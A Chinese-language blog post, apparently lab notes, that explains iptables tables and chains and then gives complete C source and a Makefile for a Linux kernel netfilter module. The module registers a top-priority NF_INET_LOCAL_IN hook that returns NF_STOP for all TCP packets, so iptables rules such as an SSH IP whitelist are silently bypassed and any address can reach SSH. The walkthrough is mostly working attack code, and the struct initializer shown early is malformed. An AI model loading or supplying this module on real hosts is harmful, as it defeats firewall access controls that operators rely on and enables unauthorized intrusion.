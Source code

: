 ```yaml
---
layout: post
title: "Netfilter and Iptables：netfilter模块绕过iptables规则"
date: 2020-09-08 
description: "netfilter模块绕过iptables规则"
tag: Linux攻防
---  
```


### 前言
本文介绍如何通过加载netfilter模块，使得不用修改iptables即可绕过规则。

本文为实验笔记，所以不对Netfilter以及iptsables进行过多的介绍，读者请先查阅相关知识再阅读本文。
### iptables 介绍及技术原理
![](/imag/20200908/1.png)
![](/imag/20200908/2.png)
![](/imag/20200908/3.png)
优先级次序（由高而低）：

raw --> mangle --> nat --> filter

------------------------------------------------------------------------------------
filter      表：负责过滤功能，防火墙；内核模块：iptables_filter

nat        表：network address translation，网络地址转换功能；内核模块：iptable_nat

mangle 表：拆解报文，做出修改，并重新封装 的功能；iptable_mangle

raw       表：关闭nat表上启用的连接追踪机制；iptable_raw

------------------------------------------------------------------------------------
PREROUTING      的规则可以存在于：raw表，mangle表，nat表。

INPUT                   的规则可以存在于：mangle表，filter表，（centos7中还有nat表，
centos6中没有）。
FORWARD           的规则可以存在于：mangle表，filter表。

OUTPUT               的规则可以存在于：raw表mangle表，nat表，filter表。

POSTROUTING   的规则可以存在于：mangle表，nat表。

------------------------------------------------------------------------------------
raw        表中的规则可以被哪些链使用：PREROUTING，OUTPUT

mangle  表中的规则可以被哪些链使用：PREROUTING，INPUT，FORWARD，OUTPUT，POSTROUTING

nat         表中的规则可以被哪些链使用：PREROUTING，OUTPUT，POSTROUTING（centos7中还有INPUT，centos6中没有）

filter       表中的规则可以被哪些链使用：INPUT，FORWARD，OUTPUT

------------------------------------------------------------------------------------
### 我们可以将数据包通过防火墙的流程总结为下图：

![](/imag/20200908/4.png)
 如何绕过iptables规则？

有如下场景：

centos7主机限制了ssh的22端口的登录，只能由特定的ip登录

iptables规则如下：

首先在INPUT链中丢弃了所有通往22端口的tcp包

iptables -I INPUT -p tcp --dport 22 -j DROP

然后设置白名单，只允许某一特定ip通过

iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT


从上面的命令中我们可以分析出，INPUT链中新添加了两条规则，拒绝所有的包以及设置白名单，-I参数表示插入，后面的白名单规则的优先级会高于前面的规则，所以iptables会首先放行来自192.168.71.1的TCP包，而来自其它ip的通往22端口的tcp包则会被另一条规则drop掉，从而达到22端口限制ip登录的功能。

接下来我们编写Netfilter模块，绕过iptables规则，使得任意ip都可以登录ssh

iptables的 INPUT 链对应 Netfilter 的HOOK点为 NF_INET_LOCAL_IN，iptables -I INPUT -s 192.168.71.1 -p tcp --dport 22 -j ACCEPT 这条规则就相当于使用netfilter 在NF_INET_LOCAL_IN hook点注册了一个回调函数，这个函数只允许该ip的数据包通过，iptables的源码其实也是这么做的

所以我们的 nf_hook_ops 结构体将像下面这样初始化：

    static struct nf_hook_ops anyssh_ops = {
        /* Fill in our hook structure */
        nfho.hook     = hook_func;
        /* Handler function */
        nfho.hooknum  = NF_INET_LOCAL_IN;
        nfho.pf       = PF_INET;
        nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
    }
hook回调函数：

我们过滤了tcp数据包，并且将所有的tcp包都返回 NF_STOP

NF_STOP表示报文通过了某个钩子函数的处理，后面的钩子函数你们就不要处理了，谁让你的优先级低呢，我就可以替你做主。假设NF_INET_LOCAL_IN中注册了两个钩子函数hook1和hook2，hook1的优先级高于hook2，hook2设定的处理结果是NF_DROP。如果hook1设定的处理结果是NF_ACCEPT，那么报文就不会递交给应用程序，因为hook2会把报文丢弃掉。如果hook1设定的处理结果是NF_STOP，那么报文就会提交给应用程序，因为hook1放行了，根本不会给hook2处理的机会。这个机制只在一个HOOK点的函数链中生效。也就是说iptables规则假设所处于的链为INPUT，则netfiler hook函数必须处于NF_INET_LOCAL_IN。

这么做的原因就是为了让iptables的规则失效，由于我们设置了 nfho.priority = NF_IP_PRI_FIRST; 我们的hook函数在INPUT这个链中处于最高优先级，只要直接返回NF_STOP，就没有后面iptbales什么事了，也就达到了任意ip都可以登录ssh的目的。

    unsigned int hook_func(unsigned int hooknum,
                        struct sk_buff *skb,
                        const struct net_device *in,
                        const struct net_device *out,
                        int (*okfn)(struct sk_buff *))
    {
        struct iphdr *ip1 = NULL;
        if (!skb){
            return NF_ACCEPT;
        }
        ip1 = ip_hdr(skb);
        if (NULL != ip1){
            if (IPPROTO_TCP == ip1->protocol){
                printk("tcp,STOP\n");
                return NF_STOP;
            }
        }else{
            printk("null!\n"); 
        }
        return NF_ACCEPT;
    }

### 完整代码：

any_ssh.c

    #include <linux/module.h>
    #include <linux/kernel.h>
    #include <linux/skbuff.h>
    #include <linux/ip.h>                  /* For IP header */
    #include <linux/netfilter.h>
    #include <linux/netfilter_ipv4.h>


    static struct nf_hook_ops nfho;


    unsigned int hook_func(unsigned int hooknum,
                        struct sk_buff *skb,
                        const struct net_device *in,
                        const struct net_device *out,
                        int (*okfn)(struct sk_buff *))
    {
        struct iphdr *ip1 = NULL;
        if (!skb){
            return NF_ACCEPT;
        }
        ip1 = ip_hdr(skb);
        if (NULL != ip1){
            if (IPPROTO_TCP == ip1->protocol){
                printk("tcp,drop\n");
                //return NF_DROP;
                return NF_STOP;
            }
        }else{
            printk("null!\n"); 
        }
        return NF_ACCEPT;
    }


    int init_module()
    {
        /* Fill in our hook structure */
        nfho.hook     = hook_func;
        /* Handler function */
        //nfho.hooknum  = NF_INET_PRE_ROUTING; /* First for IPv4 */
        nfho.hooknum  = NF_INET_LOCAL_IN;
        nfho.pf       = PF_INET;
        nfho.priority = NF_IP_PRI_FIRST;   /* Make our func first */
        printk("init_module,filter_tcp\n");
        nf_register_hook(&nfho);


        return 0;
    }


    /* Cleanup routine */
    void cleanup_module()
    {
        printk("cleanup_module,filter_tcp\n");
        nf_unregister_hook(&nfho);
    }



Makefile

    MODULE_NAME:=filter_tcp
    ifneq ($(KERNELRELEASE),)
    mymodule-objs:=${MODULE_NAME}.o
    obj-m:=${MODULE_NAME}.o
    else
    PWD:=$(shell pwd)
    KVER:=$(shell uname -r)


    KDIR:=/lib/modules/$(shell uname -r)/build
    all:
        $(MAKE) -C $(KDIR) M=$(PWD)
    #clean:
        @rm -rf .*.com *.o *.mod.c  .tmp_versions modules.order Module.symvers
    install:
        echo ${KDIR}
        @insmod ${MODULE_NAME}.ko
    uninstall:
        @rmmod ${MODULE_NAME}.ko
    endif


### 参考链接：
http://www.zsythink.net/archives/1199

### 转载请注明出处

安全编程交流：NzgyNDIxODg3


